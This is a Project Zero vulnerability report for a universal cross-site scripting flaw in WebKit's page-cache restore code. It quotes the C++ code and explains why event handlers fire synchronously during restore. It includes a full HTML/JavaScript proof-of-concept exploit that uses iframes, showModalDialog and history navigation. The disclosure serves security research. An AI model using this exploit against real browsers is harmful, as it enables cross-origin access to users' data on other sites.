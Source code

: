 # UXSS: enqueuePageshowEvent and enqueuePopstateEvent don't enqueue, but dispatch

### Reported by <mailto:lokihardt@google.com>, Feb 27 2017

Here is a snippet of CachedFrameBase::restore which is invoked when cached frames are restored.

```cpp
void CachedFrameBase::restore()
{
    ...
    for (auto& childFrame : m_childFrames) {
        ASSERT(childFrame->view()->frame().page());
        frame.tree().appendChild(childFrame->view()->frame());
        childFrame->open(); <----- (a)
    }
    ...
    // FIXME: update Page Visibility state here.
    // https://bugs.webkit.org/show_bug.cgi?id=116770
    m_document->enqueuePageshowEvent(PageshowEventPersisted);

    HistoryItem* historyItem = frame.loader().history().currentItem();
    if (historyItem && historyItem->stateObject())
        m_document->enqueuePopstateEvent(historyItem->stateObject());

    frame.view()->didRestoreFromPageCache();
}
```

enqueuePageshowEvent and enqueuePopstateEvent are named "enqueue*", but actually those *dispatch\* window events that may fire JavaScript handlers synchronously.

At (a), `open` method may invoke `CachedFrameBase::restore` method again. Thus, the parent frame's document may be replaced while `open` is called in the iteration, the next child frame is attached to the parent frame holding the replaced document.

PoC:

```html
<html>

<body>
  <script>
    function createURL(data, type = 'text/html') {
      return URL.createObjectURL(new Blob([data], {
        type: type
      }));
    }

    function navigate(w, url) {
      let a = w.document.createElement('a');
      a.href = url;
      a.click();
    }

    function main() {
      let i0 = document.body.appendChild(document.createElement('iframe'));
      let i1 = document.body.appendChild(document.createElement('iframe'));

      i0.contentWindow.onpageshow = () => {
        navigate(window, 'https://abc.xyz/');

        showModalDialog(createURL(`
<script>
let it = setInterval(() => {
    try {
        opener.document.x;
    } catch (e) {
        clearInterval(it);
        window.close();
    }
}, 10);
</scrip` + 't>'));

      };

      i1.contentWindow.onpageshow = () => {
        i1.srcdoc = '<script>alert(parent.location);</scrip' + 't>';
        navigate(i1.contentWindow, 'about:srcdoc');
      };

      navigate(window, createURL(`<html><head></head><body>Click anywhere<script>
window.onclick = () => {
    window.onclick = null;

    history.back();
};

</scrip` + `t></body></html>`));
    }

    window.onload = () => {
      setTimeout(main, 0);
    };
  </script>
</body>

</html>
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1151
